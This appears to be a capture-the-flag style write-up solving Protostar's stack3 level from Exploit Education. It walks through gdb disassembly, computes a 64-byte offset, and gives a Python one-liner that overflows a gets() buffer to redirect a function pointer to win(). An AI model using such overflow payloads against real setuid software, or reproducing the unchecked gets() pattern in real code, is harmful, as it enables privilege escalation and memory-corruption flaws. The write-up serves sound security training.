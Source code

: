 ```yaml
---
title: "protostar - stack 3"
classes: wide
tag: 
  - "buffer overflow"
header:
  teaser: /assets/images/binary-exploitation/binexp.png
ribbon: red
description: "Solution for stack three from Protostar in Exploit Education Series"
categories:
  - Binary Exploitation
---
```


Lets check the file type of the binary,

```c
$ file stack3
stack3: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, not stripped
```

Lets try running our binary,

```c
$ ./stack3
monish
$ ./stack3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
calling function pointer, jumping to 0x41414141
Segmentation fault
```

It seems like we need to redirect it to another function pointer

Lets view the source code for proper understanding,

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

Here we need to overwrite the ```fp``` variable

Lets use our debugger to analyse our binary

Disassembling ```main()```,

```c
(gdb) disas main
Dump of assembler code for function main:
0x08048438 <main+0>:	push   ebp
0x08048439 <main+1>:	mov    ebp,esp
0x0804843b <main+3>:	and    esp,0xfffffff0
0x0804843e <main+6>:	sub    esp,0x60
0x08048441 <main+9>:	mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:	lea    eax,[esp+0x1c]
0x0804844d <main+21>:	mov    DWORD PTR [esp],eax
0x08048450 <main+24>:	call   0x8048330 <gets@plt>
0x08048455 <main+29>:	cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:	je     0x8048477 <main+63>
0x0804845c <main+36>:	mov    eax,0x8048560
0x08048461 <main+41>:	mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:	mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:	mov    DWORD PTR [esp],eax
0x0804846c <main+52>:	call   0x8048350 <printf@plt>
0x08048471 <main+57>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:	call   eax
0x08048477 <main+63>:	leave
0x08048478 <main+64>:	ret
End of assembler dump.
```

Disassembling ```win()```,

```c
(gdb) disas win
Dump of assembler code for function win:
0x08048424 <win+0>:	push   ebp
0x08048425 <win+1>:	mov    ebp,esp
0x08048427 <win+3>:	sub    esp,0x18
0x0804842a <win+6>:	mov    DWORD PTR [esp],0x8048540
0x08048431 <win+13>:	call   0x8048360 <puts@plt>
0x08048436 <win+18>:	leave
0x08048437 <win+19>:	ret
End of assembler dump.
```

Here ```fp``` and ```buffer``` is initialized by,

```c
0x08048441 <main+9>:	mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:	lea    eax,[esp+0x1c]
```

To overwrite ```fp``` we need to find the space between ```fp``` and ```buffer```

```c
>>> print(0x5c-0x1c)
64
```

So we need ```64 bytes``` of junk to reach ```fp```

Lets overwrite it,

```c
$ python -c "print('A'*64+'BBBB')" | ./stack3
calling function pointer, jumping to 0x42424242
Segmentation fault
```

We get ```segmentation fault```, because there is no function pointed by the address ```0x42424242```

Lets replace it with the address of ```win()```,

Address of ```win()``` is ```0x08048424```

Lets try our exploit,

```c
$ python -c "print('A'*64+'\x24\x84\x04\x08')" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

Done! we have completed "stack3"

